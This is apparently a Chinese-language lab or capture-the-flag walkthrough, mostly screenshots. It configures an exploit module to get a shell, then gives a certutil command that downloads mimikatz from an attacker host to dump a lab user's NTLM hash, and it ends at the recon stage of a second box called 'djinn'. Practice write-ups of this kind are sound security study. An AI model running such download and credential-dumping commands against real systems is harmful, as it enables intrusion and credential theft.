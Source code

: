 ![image.png](https://s2.loli.net/2025/05/07/z2ONL8bxKs6B3Gh.png)

使用第一个

在这里我们需要配置rhost，rhost，uri，lhost

rport是8080

uri则要改成

![image.png](https://s2.loli.net/2025/05/07/LiwQdE6Ruv81SKB.png)

这个路径 后面还是一样/install

![image.png](https://s2.loli.net/2025/05/07/CW7SRsLfbkJFvOo.png)

获得shell

但权限不够需要创建负载来反弹shell

## 解密lab用户
上传mimikatz来获得lab用户的ntlm值
```cmd
certutil -urlcache -split -f http://10.17.40.203：8000/mimikatz.exe mimikatz.exe

certutil工具 上传文件
certutil -urlcache -split -f
```

![image.png](https://s2.loli.net/2025/05/07/YFQfWOENt6wescX.png)


![image.png](https://s2.loli.net/2025/05/07/KGQCn1fNoJuRwvA.png)




![image.png](https://s2.loli.net/2025/05/07/JzOBvCuEWRQ9sNq.png)

## root flag
![image.png](https://s2.loli.net/2025/05/07/TpMSJvQqbUYig1I.png)



# djinn（奇）
[[思/djinn\|djinn]]
## nmap扫描端口和文件爆破
![image.png](https://s2.loli.net/2025/05/09/jY89pToaZGqkbQn.png)

有个可以匿名登录的ftp服务器 里面还有几个txt 应该对我们有帮助

![image.png](https://s2.loli.net/2025/05/09/6c1yIKvCoWAXrgh.png)
